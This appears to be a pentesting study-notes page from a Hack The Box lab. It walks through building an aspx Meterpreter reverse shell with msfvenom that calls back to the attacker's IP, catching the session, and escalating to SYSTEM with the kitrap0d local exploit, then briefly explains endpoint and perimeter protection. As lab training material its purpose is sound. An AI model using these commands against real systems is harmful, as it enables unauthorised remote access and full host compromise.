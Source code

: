 ```yaml
---
icon: hourglass-start
---
```


# Additional Features

## Intro to MSFVenom

***

`MSFVenom` is the successor of `MSFPayload` and `MSFEncode`, two stand-alone scripts that used to work in conjunction with `msfconsole` to provide users with highly customizable and hard-to-detect payloads for their exploits.

Let's say we have ftp anonymous access and we see this ->

```shell-session
ftp> ls

200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

We see the aspnet\_client which means that the box will be able to run `.aspx` reverse shells.

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

Now we need to set up a multi handler with msf

```shell-session
msf6 > use multi/handler
```

If we navigate to [http://10.10.10.5/reverse\_shell.aspx](http://10.10.10.5/reverse\_shell.aspx)  we can trigger the `.aspx` payload on the web service.

```shell-session
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

Server username: IIS APPPOOL\Web
```

### Local Exploit Suggester

It's a module called the `Local Exploit Suggester`. We will be using this module for this example, as the Meterpreter shell landed on the `IIS APPPOOL\Web` user, which naturally does not have many permissions. Furthermore, running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester.

```shell-session
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options
<SNIP>

msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2


msf6 post(multi/recon/local_exploit_suggester) > run
```

**Local Privilege Escalation**

```shell-session
msf6 exploit(multi/handler) > search kitrap0d

<SNIP>

msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
<sNIP>
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

## Firewall and IDS/IPS Evasion

Here we will see&#x20;

* Endpoint protection
* Perimeter protection

`Endpoint protection` refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (`DMZ`).

Endpoint protection usually comes in the form of software packs which include `Antivirus Protection`, `Antimalware Protection` (this includes bloatware, spyware, adware, scareware, ransomware), `Firewall`, and `Anti-DDOS` all in one, under the same software package.

***

`Perimeter protection` usually comes in physical or virtualized devices on the network perimeter edge. These `edge devices` themselves provide access `inside` of the network from the `outside`, in other terms, from `public` to `private`.

Between these two zones, on some occasions, we will also find a third one, called the De-Militarized Zone (`DMZ`), which was mentioned previously. This is a `lower-security policy level` zone than the `inside networks'` one, but with a higher `trust level` than the `outside zone`, which is the vast Internet.
